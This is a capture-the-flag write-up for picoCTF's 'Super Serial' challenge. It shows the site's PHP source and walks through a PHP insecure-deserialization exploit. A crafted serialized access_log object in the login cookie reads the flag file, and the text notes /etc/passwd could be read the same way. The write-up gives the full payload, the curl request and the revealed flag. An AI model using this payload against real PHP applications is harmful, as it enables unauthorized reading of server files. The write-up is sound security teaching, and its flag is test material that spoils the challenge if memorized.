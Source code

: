 # Super Serial (Medium)
Try to recover the flag stored on this website http://mercury.picoctf.net:2148/

## Solution
### Getting the source code
The `robots.txt` file gives us a clue about an accessible file extension:
```
User-agent: *
Disallow: /admin.phps
```

`.phps` shows the source code of php files if the web server is configured for it. The `admin.php` cannot be found on the server, but we have a `index.php`, which gives other hints more source file:
* `cookie.php`
* `authentication.php`

`index.phps`
```php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```

`authentication.phps`
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
```

`cookie.phps`
```php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

### Vulnerability
The last part of the `cookie.php` is vulnerable, because it prints out the content of the `$perm` variable, which stores the unserialized object of a login cookie:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

We need now a way get a file content that can be printed out her. To do so, we can use the `access_log` class of the `authentication.php`. To be more precise, the `toString()` function of the class gets the content of a file stored in the variable `log_file` and prints it out:
```php
    public $log_file;

	function __toString() {
		return $this->read_log();
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
```


### Exploit
The goal is now to generate a payload that is deserialized to print out another file on the system.

PHP serialization objects follow the same of format:
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
* `O:10:"access_log"` - object of the class `access_log` (10 is the length of the class name)
* `1` - the object has one attribute (`log_file`)
* `s:8:"log_file"` - name of the attribute is a string (`s`), 8 characters long and is named `log_file`
* `s:7:"../flag"` - the content of the attribute is a string (`s`), 7 characters long and is `../flag` (the file that we want to access*)

_*The file could also be `/etc/passwd/`._

This payload has to be base64 encoded and given as cookie `login` to the application in an HTTP request:
```
Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

### Flag
We have to request the `/authentication.php`:
```
┌──(kali㉿kali)-[~]
└─$ curl -i --cookie login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9 http://mercury.picoctf.net:2148/authentication.php
HTTP/1.1 200 OK
Set-Cookie: PHPSESSID=du6gdpoebe1jfp1lcd344aabv2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8

Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}
┌──(kali㉿kali)-[~]
└─$ 
```
